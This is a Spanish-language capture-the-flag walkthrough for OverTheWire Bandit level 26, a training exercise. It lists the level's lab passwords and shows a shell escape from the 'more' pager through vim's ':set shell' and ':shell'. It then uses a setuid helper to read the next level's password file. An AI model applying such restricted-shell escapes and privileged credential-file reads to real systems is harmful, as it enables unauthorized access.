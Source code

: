 # Level 26
## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de Acceso
bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
## Solucion
--More--(66%) v _ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | "~/text.txt" [readonly] 6L, 258B :set shell=/bin/bash :shell [No write since last change] 
bandit26@bandit:~$ 
bandit26@bandit:~$ ls 
bandit27-do text.txt 
bandit26@bandit:~$ ./bandit27-do id uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26) 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27 YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS 
bandit26@bandit:~$ 
bandit26@bandit:~$ exit
:qa! 
q
## Notas Adicionales
|comando|descripcion|
|xxx|xxx|
## Referencias